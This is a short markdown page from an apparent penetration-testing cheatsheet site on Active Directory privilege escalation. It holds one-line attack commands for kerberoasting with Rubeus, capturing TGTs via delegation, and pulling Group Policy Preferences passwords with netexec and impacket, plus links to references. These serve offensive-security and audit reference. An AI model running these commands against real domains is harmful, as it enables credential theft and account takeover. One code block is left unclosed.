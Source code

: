```yaml
---
layout: post
title: privesc / ad
category: 02-privesc
parent: cheatsheets
modified_date: 2023-07-04
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [kerberoasting](#kerberoasting)
	* [delegations](#delegations)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)
	* [gpp-password](#gpp-password)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/t0thkr1s/gpp-decrypt","https://api.github.com/repos/FSecureLABS/SharpGPOAbuse","https://api.github.com/repos/NetSPI/PowerUpSQL"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='kerberoasting'></a>kerberoasting
```powershell
Rubeus.exe -args kerberoast /user:$ztarg_user_name /simple /rc4opsec /outfile:hashes.txt
```

### <a name='delegations'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)

```powershell
# KUD server: monitor the TGT
Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

```powershell
pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


## <a name='shoot-gpo'></a>shoot-gpo

![](/assets/images/win_20_audit_gpo.jpg)

### <a name='gpp-password'></a>gpp-password

```bash
# cme
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin

# impacket
Get-GPPPassword.py $zz
```